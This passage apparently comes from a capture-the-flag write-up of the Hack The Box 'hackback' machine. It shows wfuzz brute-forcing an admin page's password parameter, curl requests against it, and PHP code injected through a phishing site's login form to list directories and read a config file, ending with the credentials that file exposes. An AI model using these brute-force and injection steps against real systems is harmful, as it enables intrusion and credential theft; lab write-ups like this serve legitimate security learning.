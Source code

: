 wfuzz found "webadmin.php" and in the previous message had some parameters that I used

``` bash
curl -s "http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=test&session="

```

I then used wfuzz once more to attempt to brute force the password parameter

``` bash
wfuzz -c --hc=404 --hh=17,0 -t 200 -w /passwords/xato-net10000.txt "http://admin.hackback.htb/2bb9..../webadmin.php?action=list&site=hackthebox&password=FUZZ&session="
```

wfuzz found the password "12345678" , which I used 
``` bash
curl -s "http://admin.hackback.htb/2bb9..../webadmin.php?action=list&site=hackthebox&password=12345678&session="

```

I discovered a .log file and needed to find a way to view it.

I checked another port 64831, which was https and hosted a gophish applicaiton that seemed to contain Email templates for phish hackthebox and another sites.
I found the phishing url (https://www.hackthebox.htb), and saved it in my hosts file  as (www.hackthebox.htb).

After checking the false hackthebox site,  I exploit a vulnerability in the hack the box login panel, allowing me to inject commands. and I used the session ID from the login panel and used it with the parameter I found earlier

``` bash
curl -s "http://admin.hackback.htb/2bb9..../webadmin.php?action=show&site=hackthebox&password=12345678&session=session"

```

This allowed me to view the logs generetared from my ip.

By trying some payloads in the login panel form, I noticed that I could execute some php commands. I atempted to enumerate internal server information

``` bash
#on the login panel form
<?php print_r(scandir("../")); ?>
<?php echo file_get_contents("../web.config.old"); ?>

# on my machine
curl -s "http://admin.hackback.htb/2bb9..../webadmin.php?action=show&site=hackthebox&password=12345678&session=session"

userName="simple" 
password="ZonoProprioZomaro:-("
```

I obtained credentials from another file "web.conf.old" I saved the credentials
